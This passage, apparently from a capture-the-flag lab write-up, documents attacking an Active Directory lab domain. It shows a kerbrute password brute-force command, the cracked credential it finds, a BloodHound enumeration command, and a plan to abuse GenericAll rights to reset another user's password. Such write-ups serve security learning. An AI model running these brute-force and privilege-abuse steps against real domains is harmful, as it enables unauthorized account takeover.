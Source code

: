 ```python
```

Using the bruteforcing function of kerbrute try to guessing James's password.

{% code overflow="wrap" %}
```bash
./kerbrute_linux_amd64 bruteuser new_wordlist.txt j.bold --domain k2.thm --dc 10.10.82.211
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
[+] VALID LOGIN:  j.bold@k2.thm:#8rockyou
```

We found valid credentials for James user.&#x20;

## Bloodhound enumeration

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.82.211 -dc K2Server.k2.thm -d k2.thm --zip -u 'j.bold' -p '#8rockyou'
```
{% endcode %}

We can see that the `IT STAFF 1` group has the `GenericAll` privs to `j.smith` account. It means that we can change the j.smith's password.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
